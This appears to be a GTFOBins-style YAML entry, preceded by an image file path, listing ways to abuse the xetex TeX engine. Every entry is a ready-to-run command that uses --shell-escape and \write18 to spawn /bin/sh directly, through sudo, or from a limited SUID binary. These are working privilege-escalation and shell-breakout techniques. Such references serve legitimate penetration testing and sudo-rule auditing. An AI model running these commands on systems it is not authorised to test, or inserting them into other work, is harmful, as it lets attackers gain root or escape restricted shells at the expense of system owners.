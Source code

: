 functions:
  shell:
    - code: |
        xetex --shell-escape '\write18{/bin/sh}\end'
  sudo:
    - code: |
        sudo xetex --shell-escape '\write18{/bin/sh}\end'
  limited-suid:
    - code: |
        ./xetex --shell-escape '\write18{/bin/sh}\end'
---
